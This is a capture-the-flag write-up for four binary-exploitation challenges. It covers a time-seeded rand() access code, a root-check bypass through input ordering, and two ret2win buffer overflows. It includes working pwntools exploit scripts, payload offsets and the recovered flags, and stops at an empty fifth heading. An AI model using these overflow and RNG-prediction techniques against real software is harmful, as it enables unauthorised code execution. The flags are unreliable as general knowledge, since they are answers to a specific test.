# 1. hungry
## Solution:
After setting up the challenge, we connect to the localhost:



And looking through the decomp of `main()` in the given binary in _Ghidra_, we see that the program calls `take_order()` for the ingredients and `choose_style()` for the grilled/fried preference.


Going into `take_order()`, at line 17, we see that if the user's input is == `0x24` (`$` in ASCII), another function, namely `manager_control_panel()` is called.



This function is the most interesting. From lines 13 - 15, the program sets the key for `rand()` (later invoked in line 16), with the key being the output of a XOR between the current time (Unix timestamp) and the process ID of the program with `getpid()`, and if the user input == the random number generated, the user gains shell access at which point the challenge is over.



Finally, to solve the challenge, I made this script using `ctypes` and `pwntools`:
```python
from pwn import *
from ctypes import CDLL
import time

# loading libc so we can use rand() in python
libc = CDLL("libc.so.6")

host = 'hunger.nitephase.live'
port = 53791

conn = remote(host, port, level='error')
current_time = int(time.time())

seed = 1 ^ current_time 

libc.srand(seed)
random_num = libc.rand()
access_code = random_num % 1000000

conn.sendlineafter(b'(y/n)?', b'$')
conn.sendline(str(access_code).encode())

reply = conn.recvline(timeout=1)

if b'granted' in reply.lower():
    print("code:", access_code)
    conn.interactive()
```

Running the script, we get the flag.



## Flag:
`nite{s1ndh1_15_m0r3_f1ll1ng_th4n_bk_or_mcd}`

## Notes: 
1) Through T&E, I found out that the PID of the process is 1, although I'm not sure why, but it eliminates the need of a brute force loop `¯\_(ツ)_/¯`
2) Spent a lot of time debugging the script since I'm not very experienced with Python in general
***
# 2. immaDev
## Solution:
Loading up _Ghidra_, we see that `main()` only contains some print statements, after which  is called, where the challenge starts. 

Some important excerpts from the function: (some variables are renamed from the original decomp)

```c++
  std::getline<>((istream *)std::cin,local_5c8);
  std::__cxx11::istringstream::istringstream(local_5a8,local_5c8,8);
  while( true ) {
    plVar4 = (long *)std::istream::operator>>((istream *)local_5a8,&local_5d4);
    bVar2 = std::ios::operator.cast.to.bool((ios *)((long)plVar4 + *(long *)(*plVar4 + -0x18)));
```
Here, user input is read into `local_5c8`, which is then parsed as an input stream, which on every iteration of the loop assigns one value to `local_5d4`.

```c++
else {
      arr[local_5d0] = local_5d4;
      local_5d0 = local_5d0 + 1;
    }
```
This excerpt (from the same while loop) takes the value from the input stream and puts it into an array. There is also logic before this that ensures only valid inputs make it through to this step.

```c++
  if ((arr[0] == 2) && (_Var3 = geteuid(), _Var3 != 0)) {
    bVar2 = true;
  }
  else {
    bVar2 = false;
  }
  if (bVar2) {
    poVar5 = std::operator<<((ostream *)std::cout,"Error: Option 2 requires root privileges HAHA");
    std::ostream::operator<<(poVar5,std::endl<>);
  }
```
Here, we see if the first entry in the user's input is `2` i.e. the one to invoke `printFlag()`, it will fail if the user does not have root privileges, which we do not have access to in this challenge (I think).

```c++
  else {
    for (i = 0; i < local_5d0; i = i + 1) {
      iVar1 = arr[i];
      if (iVar1 == 3) {
        login();
      }
      else if (iVar1 < 4) {
        if (iVar1 == 1) {
          sayHello();
        }
        else if (iVar1 == 2) {
          printFlag();
        }
      }
    }
  }
```
Now, if the first entry is NOT 2, we iterate through this `for` loop, where `iVar1` is a temporary variable == `arr[i]` which passes through some `if` statements. Since there is no longer a check for `arr[i] == 2` after the first entry, we can simply bypass the need for root and input `1 2` or `3 2` and get the flag.



## Flag:
`nite{n0t_4ll_b1n3x_15_st4ck_b4s3d!}`

## Notes:
1) Pretty straightforward except for _Ghidra_'s awful variable names and verbose typedefs.
***
## 3. performative
## Solution:
We start by running `checksec`: 


Since PIE (Position Independent Executable) is disabled, it means the function addresses will remain fixed during execution.

Next, we load up a decompiler (I use `angr` through [dogbolt.org](https://dogbolt.org) here), and looking at `main()` we see:



`v2` has been defined with a 32 byte buffer, but `%s` will not check the length of the user's input, hence this can lead to a _buffer overflow_, which is what we will employ here to call upon `win()`, which is never mentioned in `main()` but it calls `printFlag()`

From the decomp, we know that `v2` is located at `[rbp-0x28]`.
However, to reach the return address, we need to fill the 32-byte buffer + overwrite the 8-byte saved RBP.

Since PIE is off, we use `gdb` to find the address of `win()`:


Finally, we construct a script using `pwntools`:

```python
from pwn import *

p = remote("performative.nitephase.live", 56743)
win = 0x401275
payload = b"A" * 40 + p64(win)
p.sendlineafter(b"Buffer: ", payload)
p.interactive()
```

## Flag:
`nite{th3_ch4l_4uth0r_15_4nt1_p3rf0rm4t1v3}`

## Notes:
1) After solving, I learned that this is a `ret2win` challenge and some better methods to solve them
***
# 4. Property in Manipal
## Solution:
This challenge is pretty similar to the last one, with the only difference being I use a `RET gadget` instead of adding 8 bytes to the offset.

Running `checksec` (no PIE again):


This time, we get to see `gets()`, which is famously unsafe for not checking bounds on user inputs, and hence leading to _buffer overflows_ -- here, line 95 has `gets(&v0)`.


We can see that `v0` is located at `[bp-0x48]` which translates to 72 bytes to reach the return address.

Using `gdb` to find the address of `win()`:


Finally, we construct a script (using a RET gadget here to fix stack alignment problems which we found the address for using `objdump`)


script:
```python
from pwn import *

p = remote("propertyinmanipal.nitephase.live", 42586)
win = 0x401196
ret = 0x40101A

p.sendlineafter(b"property:", b"test")
payload = b"A" * 72 + p64(ret) + p64(win)
p.sendlineafter(b"customizations:", payload)
p.interactive()
```
## Flag:
`nite{ch0pp3d_ch1n_r34lly_m4d3_2025_p34k_f0r_u5}`
***
# 5. IQ Test
## Solution:
